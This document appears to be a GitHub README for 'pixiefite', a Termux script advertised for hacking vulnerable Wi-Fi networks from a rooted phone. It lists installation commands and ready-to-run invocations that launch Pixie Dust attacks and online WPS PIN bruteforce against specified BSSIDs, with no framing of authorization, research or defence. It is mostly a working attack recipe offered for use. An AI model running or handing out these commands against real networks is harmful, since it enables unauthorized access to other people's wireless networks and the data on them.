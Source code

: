 # pixiefite
Hack vulnerable Wi-Fi networks using Termux (rooted)

### Installation :

```bash
pkg update && pkg upgrade -y
pkg install root-repo -y
pkg install git tsu python wpa-supplicant pixiewps iw openssl python -y
git clone https://github.com/vladimir127001/pixiefite
cd pixiefite
chmod +x pixiefite0.0.1.py
sudo python pixiefite0.0.1.py -i wlan0 -K
```

#### Help : `sudo python main --help`
#### Example : `sudo python pixiefite0.0.1.py -i wlan0 -K`

#### Usage: 
+ **First turn off your Wifi.**
+ **Turn on Hotspot.**
+ **Turn on Location.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python pixiefite0.0.1.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python pixiefite0.0.1.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python pixiefite0.0.1.py -i wlan0 -b 50:0F:F5:B0:08:05 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

---
